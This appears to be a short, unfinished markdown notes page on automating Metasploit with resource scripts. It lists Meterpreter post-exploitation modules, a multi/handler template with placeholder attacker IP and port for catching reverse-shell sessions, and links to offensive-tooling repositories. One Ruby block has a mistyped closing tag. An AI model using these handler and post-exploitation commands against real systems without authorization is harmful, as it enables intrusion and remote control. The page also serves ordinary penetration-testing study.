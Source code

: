 # Resource

TODO: Provide resource scripts to automate the process in metasploit

```
run post/multi/gather/run_console_rc_file

run post/multi/gather/multi_command

run post/multi/manage/multi_post

meterpreter > run multi_console_command
```

```
<ruby>
run_single("exploit -j -z")
</ruby>
```

```
<ruby>
use exploit/multi/handler
set payload <payload_module>
set lhost <attacker_IP>
set lport <attacker_PORT>
set ExitOnSession false
exploit -j
<ruby>
```

Save the initial commands that were executed to a file.

```
msf > makerc
```

---
## References

### Source Repositories

- [r00t-3xp10it: RC exploiter](https://github.com/r00t-3xp10it/RC-exploiter)

- [r00t-3xp10it: Resource Files](https://github.com/r00t-3xp10it/resource_files)

- [r00t-3xp10it: metasploit_resource_files](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md)

- [r00t-3xp10it: msf-auxiliarys](https://github.com/r00t-3xp10it/msf-auxiliarys/wiki/Welcome-to-the-msf-auxiliarys-wiki!)

### RubyFu

- [RubyFu: API and Extensions](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/api-and-extensions)

- [RubyFu: Meterpreter Scripting](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/meterpreter-scripting)

- [RubyFu: Railgun API Extension](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/railgun-api-extension)